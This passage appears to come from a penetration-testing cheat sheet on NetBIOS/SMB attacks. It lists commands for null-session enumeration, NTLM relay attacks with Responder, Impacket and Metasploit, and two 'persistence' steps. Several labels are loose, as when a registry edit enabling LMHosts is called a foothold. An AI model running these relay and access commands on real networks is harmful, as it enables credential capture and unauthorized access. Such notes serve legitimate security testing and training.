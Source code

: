 *   **Connect via Null Session:** Exploits unauthenticated connections to gather information from a target system.

    ```bash
    smbclient -L //<target_ip>/IPC$ -N
    ```

#### \[\[Relay Attacks]]

*   **Tool:** \[\[Responder Cheat Sheet]], \[\[Impacket-NTLMRelayX Cheat Sheet]]

    ````bash
    impacket-ntlmrelayx -tf targets.txt -smb2support
    sudo responder -I <interface>
        ```
    ````

\


*   **Tool:** \[\[Responder Cheat Sheet]], \[\[Impacket-SMBRelayX]]

    ```bash
    impacket-smbrelayx -t <target_ip> -r <relay_ip>
    sudo responder -I <interface>    
    ```

\


*   **Tool:** \[\[Responder Cheat Sheet]], \[\[Metasploit]]

    ```bash
    msfconsole -x "use auxiliary/server/smb_relay; set TARGET <target_ip>; run"
    sudo responder -I <interface>    
    ```
* **Description:** Exploit NetBIOS name resolution to relay captured credentials to an SMB service, potentially gaining unauthorized access.

### Persistence

#### Backdoor through NetBIOS Session

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]

    ```bash
    net use \\<target_ip>\IPC$ /USER:<user> <password>
    ```
* **Description:** Establish a persistent connection to a shared resource, allowing continuous access.

#### Registry Persistence

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetBT\Parameters" /v EnableLMHosts /t REG_DWORD /d 1 /f
    ```
* **Description:** Modify registry settings to ensure NetBIOS services start with the system, maintaining a foothold.
